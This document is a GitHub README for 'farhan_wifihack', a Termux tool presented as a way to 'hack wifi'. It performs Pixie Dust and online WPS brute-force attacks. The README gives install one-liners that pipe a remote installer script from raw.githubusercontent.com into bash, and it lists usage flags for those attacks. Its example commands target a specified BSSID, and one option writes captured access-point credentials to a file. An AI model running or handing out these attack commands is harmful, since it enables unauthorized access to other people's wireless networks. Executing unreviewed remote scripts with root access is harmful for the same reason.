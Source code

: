 ### farhan_wifihack
<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&pause=1000&color=FF032F&random=false&width=435&lines=%E0%A6%86%E0%A6%AE%E0%A6%BF+%E0%A6%AB%E0%A6%BE%E0%A6%B0%E0%A6%B9%E0%A6%BE%E0%A6%A8+%E0%A6%AE%E0%A7%81%E0%A6%B9%E0%A6%A4%E0%A6%BE%E0%A6%B8%E0%A6%BF%E0%A6%AE+-+im+farhan+muh+tasim+thanks+for+my+hacking+command+use+;Facebook+%3A+FARHAN+MUH+TASIM;YouTube+%3A+EVAN+ALONE;TELEGRAM+%3A+FARHAM+MUH+TASIM" alt="Typing SVG" /></a>


### wifi-hack
<p align="center"><img src="https://i.ibb.co/b1qqnbS/Photo-Lab-M-W-20231004-231206.jpg"></p>

[![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/)
[![python](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/downloads/release/python-2714/)
[![OS](https://img.shields.io/badge/Tested%20On-Linux%20%7C%20Android-yellowgreen.svg)](https://termux.com/)

### Hack wifi using Termux (rooted)
    
- [Requirements]
  - [Python](https://www.python.org)
  - [Pixiewps](https://www.kali.org/tools/pixiewps/)
  - [Wpa-supplicant](https://wiki.archlinux.org/title/wpa_supplicant)

### How to update WifiHack
To check for updates and update, run the following command:
```
(cd farhan_wifihack && git pull)
```

# farhan_wifihack_Termux_installer/LINK
```
 https://github.com/Gtajisan/farhan_wifihack_Installer
 ```



# Overview
**farhan_wifihack** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
# Requirements
**all source**
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).

Please note that root access is required.  

### Installation one line:
**run with one line**

```bash
apt update && apt upgrade && pkg install tsu && pkg install python && pkg install git && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw openssl && termux-setup-storage && curl -sSf https://raw.githubusercontent.com/gtajisan/farhan_wifihack_Termux_installer/master/installer.sh | bash && git clone --depth 1 https://github.com/gtajisan/farhan_wifihack farhan_wifihack && sudo python farhan_wifihack/farhan_wifihack.py -i wlan0 --iface-down -K
```


## [Termux](https://termux.com/)
Please note that root access is required.  

### Hack WIfi Using Termux! (Requires Root)
<p align="center"><img src="https://i.ibb.co/zSdnKQ4/Screenshot-20231014-180419-Termux.png"></



#### Using installer
 ```
 curl -sSf https://raw.githubusercontent.com/gtajisan/farhan_wifihack_Termux_installer/master/installer.sh | bash
 ```
#### Manually
**Installing requirements**
 ```
pkg update
pkg upgrade
pkg install tsu
pkg install python
pkg install git
pkg install -y root-repo
pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
termux-setup-storage
 ```
### Getting farhan_wifihack
**run farhan hack py**
 ```
 git clone --depth 1 https://github.com/gtajisan/farhan_wifihack farhan_wifihack
 ```
 ```
 cd farhan_wifihack
 ```

## [Termux](https://termux.com/)


# Usage
```
 farhan_wifihack.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
cd farhan_wifihack && sudo python3 farhan_wifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
cd farhan_wifihack &&  sudo python3 farhan_wifihack.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
cd farhan_wifihack &&  sudo python3 farhan_wifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
cd farhan_wifihack &&  sudo python3 farhan_wifihack.py -i wlan0 --pbc
 ```

## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running farhan_wifihackwith ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running farhan_wifihackwith the `--mtk-wifi` flag to initialize Wi-Fi device driver.
# Acknowledgements
## Special Thanks
* `rofl0r` for initial implementation;
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` for developing Pixiewps.
* binod-xd` for inspire.
* support on oneshot.


